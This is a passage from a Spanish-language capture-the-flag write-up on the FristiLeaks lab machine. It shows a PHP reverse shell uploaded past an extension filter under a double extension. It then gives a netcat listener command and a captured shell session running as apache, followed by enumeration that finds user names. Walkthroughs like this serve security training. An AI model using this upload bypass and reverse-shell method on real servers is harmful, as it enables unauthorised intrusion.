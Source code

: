 Y al tratar de subir el archivo todo va Ok, el script de upload validaba la extensión de lo que se subía.

---

![img]({{ '/assets/images/Fristileaks/upload_03.png' | relative_url }}){: .center-image }*(Hubiera sido muy fácil...)*

---

Ahora solo resta acceder al link mencionado previamente habiendo abierto una sesiéon para recibir la conexión reversa con **Netcat**:

>**``nc -nlvp 1234``**

En el momento que se ingresa a **http://10.0.0.123/fristi/uploads/php-reverse-shell.php.png** se recibe la conexión!!

```console
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.0.123.
Ncat: Connection from 10.0.0.123:56200.
Linux localhost.localdomain 2.6.32-573.8.1.el6.x86_64 #1 SMP Tue Nov 10 18:01:38 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 12:49:30 up 21:00,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.1$ whoami
whoami
apache
sh-4.1$ pwd
/
pwd
sh-4.1$ 
```
---

## **Reconocimiento**

---

Dentro de la carpeta ``/var/www`` se puede encontrar un archivo llamado ``notes.txt`` con el siguiente contenido:

```console
hey eezeepz your homedir is a mess, go clean it up, just dont delete
the important stuff.

-jerry
```

Ya tengo el nombre de dos usuarios: **eezeepz y jerry**
